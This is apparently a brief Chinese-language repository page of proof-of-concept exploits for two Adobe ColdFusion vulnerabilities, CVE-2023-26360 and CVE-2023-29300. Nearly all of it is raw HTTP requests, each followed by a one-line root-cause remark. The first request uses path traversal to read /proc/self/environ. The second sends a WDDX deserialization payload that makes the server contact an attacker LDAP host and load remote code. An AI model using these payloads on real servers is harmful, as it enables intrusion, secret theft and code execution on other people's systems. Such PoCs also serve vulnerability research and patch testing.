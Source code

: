 笔记可参考 [cfusion-cve](https://racerz.notion.site/Adobe-ColdFusion-e24c5d1b0853494ba265407595db79a0?pvs=4)

### CVE-2023-26360

- POC

  ```
  POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=wizardHash&_cfclient=true&returnFormat=wddx&inPassword=foo HTTP/1.1
  Host: 127.0.0.1:8500
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 86
  
  _variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
  ```

  主要源于 filter 当中存在 json 反序列化导致任意文件读取，最终模板引擎会将其解析并回显到脚本文件当中



### CVE-2023-29300

- POC

  ```
  POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
  Host: 127.0.0.1:8500
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 336
  
  argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Lcom.sun.rowset.JdbcRowSetImpl;'><var name='dataSourceName'><string>ldap://ldap.ip/Exploit</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
  ```

  主要源于输入在执行 XML 反序列化时未经过过滤可以调用任意含有 public 无参构造函数类的 setter 方法
